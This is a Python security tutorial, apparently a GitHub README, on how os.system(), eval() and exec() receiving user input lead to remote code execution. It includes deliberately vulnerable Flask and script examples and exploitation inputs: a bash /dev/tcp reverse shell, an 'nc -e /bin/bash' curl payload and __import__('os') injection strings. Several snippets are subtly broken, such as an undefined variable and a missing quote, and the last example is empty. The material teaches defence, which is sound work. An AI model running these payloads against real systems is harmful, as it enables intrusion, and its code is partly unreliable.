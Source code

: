 # Python-Security-Principles
Fundamental concepts and principles on how Python application can be abused to gain remote code execution or be used to perform any type of unattended functionality

Python is an interpreted high-level general-purpose programming language. Python's design philosophy emphasizes code readability with its notable use of significant indentation. A lot of modern web application use python , especially when utilizing API endpoints. It is critical to secure these web application and API endpoints to ensure that the web application behaves as expected

When validating secure code , always examine the code to determine what paramter is used to accept user input , on what route is it mapped to and how the user supplied data gets processed during the web applications execution flow. Never pass input that the user has control over to a paramater that gets wrapped around a dangerous function() that could interact with the underlying OS and execute code. 

The following Python fucntions() can be abused to execute code, exfiltrate data, perform unattended functionality or bypass authentication pages

- os.system()
- eval()
- exec()
- input()
- str.format()
- Pickle()
- Jinja2/Tornado 
- PyYaml 

| Function | Description | Misconfiguration |
| :---: | :---: | :---: |
| os.system() | Python function() that allows the execution of shell commands | If a Web API route accepts user-controlled data that doesn't get escaped and filtered and passes it to os.system(), it will attempt to execute the input received as a shell command, allowing the Web API route paramater to be abused for unintended code execution |

Below is a basic example of how this function() can be used. The function() itself is not evil, but passing unsanitized user input to the function() could be dangerous and lead to code execution. Always ensure to pass data to os.system() that is validated, escaped and required for it's intended functionality.

Basic Script - Accepts user input and saves it in the txt variable and then passes the txt variable to os.system()
```
#!/usr/bin/python

import os

txt = input("Enter Command to Execute?: ")
os.system(txt)
```
Another example of a similiar program that is not properly validated. The below code asks for a name , but passes the input to os.system(). This is a basic example of how the context of the program does not match it's functionality. 
```
#!/usr/bin/python

import os

txt = input("What is your name?: ")
os.system(txt)
```
Explioting the above code. Since the entire input variable is send to os.system(), the attacker can just provide a reverse shell one-liner instead of a valid name
```
What is your name?: bash -i >& /dev/tcp/10.10.10.10/9999 0>&1

//Replace IP
//Replace Port
```
The following code accepts user input from the public and passes it to os.system(), allowing the web application to be vulnerable to code execution

Interacting with the web app
```
curl -X POST http://10.10.10.10:5000/api?request=
curl -X POST -d "request=test" http://10.10.10.10:5000/api
```
Vulnerable Web Application
```
#!/usr/bin/python

import os
from flask import Flask, request

app = Flask(__name__)


@app.route("/api", methods=["POST"])
def hackme():
    data = os.system(request.form['request'])
    print(data)
```
Explioting the web app

Payload: nc -e /bin/bash 10.10.5.10 9999 | Can be replaced by any other form of RCE. Ensure to base64 or URL encode the payload

```
curl -x POST -d "request=nc -e /bin/bash 10.10.5.10 9999" http://10.10.10.10:5000/api
```
Web app breakdown:

| Function | Description | 
| :---: | :---: | 
| #!/usr/bin/python | Forcing the web app to use my built in python path |
| import os | Importing the os library to use it's functionality such as calling os.system() |
| Flask | Micro Web Framework Written to run the web application  |
| @app.route | Specifies the internal web app route to the location on the web server where it receives input  |
| /api | The actual route on the web server (Web API Route) |
| POST | Enforces that the route accept only HTTP POST requests |
| data | Variable that stores input the web app receives |
| os.system() | Function that allows the execution of shell commands |
| request | Parameter in the /api route that accepts input via HTTP POST requests |
| print(data) | Print the input received via the web API route , wrapped around os.system() that allows code execution |

| Function | Description | Misconfiguration |
| :---: | :---: | :---: |
| eval() | Function in Python that takes strings and execute them as arithmetic functions such as integer values | If a Web paramater accepts user-controlled data that doesn't get escaped and filtered and passes it to eval(), it will attempt to execute the input received as an arithmetic function that could lead to the creation of subprocess for code execution |

The following code acts as a simple calculator that uses eval() to do arithmetic function
```
compute = input('\nYour expression? => ')
if not compute:
print ("No input")
else:
print ("Result =", eval(comp))
```
Giving the program the below output , it will do a calculation to calculate the result using the eval() function
```
Input: 2*3
Program output: 6
```
Exploiting the code by giving the program untrusted input
```
Input: __import__(‘os’).system(‘whoami’) 
Output: root
```
If the os.system() is blacklisted, the below method can also be used to execute code
```
Input: __import__('os').popen("whoami).read()
Output: root
```
Secure Code 

The follwoing code includes the validate() fucntion to ensure that only numbers and arithmetic expressions are allowed
```
compute = input('\nYour expression? => ')
if not compute :
print ("No input")
else:
if validate(compute):
print ("Result =", eval(comp))
else:
print ("Error")
```
| Function | Description | Misconfiguration |
| :---: | :---: | :---: |
| exec() | Method executes the Python code block passed as a string or a code object | If a Web paramater accepts user-controlled data that doesn't get escaped and filtered and passes it to exec(), the attacker could supply python logic as part of the user input to abuse the exec() function if it does not get validated |

The following code takes input and passes it to exec()
```
code = input('What command(s) in python did you learn today?')
exec(code)
```
Exploiting the code , we can pass valid python logic to exec(). This can also be validated by using the validate() function
```
Input: __import__('os').system.listdir() 
```
Web app passes user-input to exec()
```


```


